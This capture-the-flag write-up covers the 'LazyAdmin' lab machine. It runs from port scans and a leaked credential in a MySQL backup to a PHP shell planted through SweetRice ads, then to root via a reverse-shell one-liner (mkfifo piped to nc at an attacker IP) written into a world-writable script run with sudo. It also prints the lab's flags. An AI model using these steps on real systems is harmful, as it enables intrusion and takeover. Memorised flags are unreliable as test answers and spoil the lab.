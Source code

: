 # LazyAdmin
### #1 User flag

Run a scan to see the open ports
```
nmap -sV <ip>
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```
Run dirbuster to get a map of the directorys
```
dirbuster
/content
/content/as (Login page)
/content/inc/mysql_backup/
```
System is using Sweet rice verson 1.5.1

Checked out the mysql backup
```
http://<ip>/content/inc/mysql_backup/
```
Found a user
```
manager
42f749ade7f9e195bf475f37a44cafcb:Password123
```
Start a lissener on the attacker machine.
```
nc -lvp 1234
```
Exploiting an php shell added inside the html in the ads found in version 1.5.1
```
firefox exploit.html
```
Navigate to the ad that got created
```
http://<ip>/content/inc/ads/exploit.php
```
Check who we got privleges as
```
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Cat out the user flag
```
cat /home/itguy/user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```

### #2 Root flag

Get normal bash using python
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
Can allso use script to get normal bash
```
/usr/bin/script -qc /bin/bash /dev/null
```
Is there anything we can do without the password
```
sudo -l
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
Checked the backup.pl, itguy is the owner, but it runs a file called copy.sh

```
/etc/copy.sh -l
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```
make sure that the terminal is set to linux
```
export TERM=linux
```
Make the attacker shell listen to request
```
nc -lnvp 5555
```
Vi and nano did not work for me so had to echo the edits to the copy.sh script
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.100.167 5555 >/tmp/f" > /etc/copy.sh
```
Run the no password command
```
sudo /usr/bin/perl /home/itguy/backup.pl
```
Recived the connection, finished with cating out the root flag
```
cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

